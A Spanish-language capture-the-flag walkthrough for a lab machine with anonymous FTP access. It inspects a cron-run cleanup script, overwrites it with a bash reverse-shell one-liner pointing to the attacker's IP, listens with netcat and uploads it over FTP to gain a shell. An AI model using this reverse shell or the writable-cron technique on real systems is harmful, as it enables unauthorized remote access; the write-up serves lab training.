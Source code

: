 Analizamos los ficheros descargados.

- to_do.txt ---> I really need to disable the anonymous login...it's really not safe

- clean.sh ---> Script en bash que va eliminando contenido de /tmp y posteriormente le va anadiendo el nombre del fichero eliminado a removed_files.log
  
        #!/bin/bash
        tmp_files=0
        echo $tmp_files
        if [ $tmp_files=0 ]
        then
                echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
        else
            for LINE in $tmp_files; do
                rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
        fi

 - removed_files.log ---> Running cleanup script:  nothing to delete


Por lo que tras ver todo esto me da que clean.sh se ejecuta a intervamos de tiempo para ir eliminando el contenido del directorio /tmp, es ejecutado por una tarea cron.
Como tenemos permiso de escritura en la carpeta scripts vamos a subir un fichero clean.sh con una reverse shell y ver si obtenemos acceso a la maquina.

## Obtenemos Reverse Shell

-Creamos un fichero clean.sh con el siguiente contenido.

    ┌──(root㉿kali)-[/home/…/Desktop/ctf/anonymous/script]
    └─# echo -n "bash -c 'bash -i >& /dev/tcp/10.9.92.151/1988 0>&1'" > clean.sh
    
-Nos ponemos en escucha con netcat en nuestra maquina

    ┌──(root㉿kali)-[/home/…/Desktop/ctf/anonymous/script]
    ┌──(root㉿kali)-[/home/…/Desktop/ctf/anonymous/script]
    └─# nc -lnvp 1988
    listening on [any] 1988 ...

-Subimos nuestra revershell al ftp al mismo directorio, por lo que sobreescribira el clean.sh(original) por el nuestro

    ftp> cd scripts
    250 Directory successfully changed.
    
    ftp> put /home/kali/Desktop/ctf/anonymous/script/clean.sh clean.sh
    local: /home/kali/Desktop/ctf/anonymous/script/clean.sh remote: clean.sh
    229 Entering Extended Passive Mode (|||46955|)
    150 Ok to send data.
    100% |*********************************************************************************************************************************|    51        1.10 MiB/s    00:00 ETA
    226 Transfer complete.
    51 bytes sent in 00:00 (0.43 KiB/s)

obtenemos shell, upgradeamos a full tty para tener mejor maniobrabilidad ---> Info upgrade https://0xffsec.com/handbook/shells/full-tty/
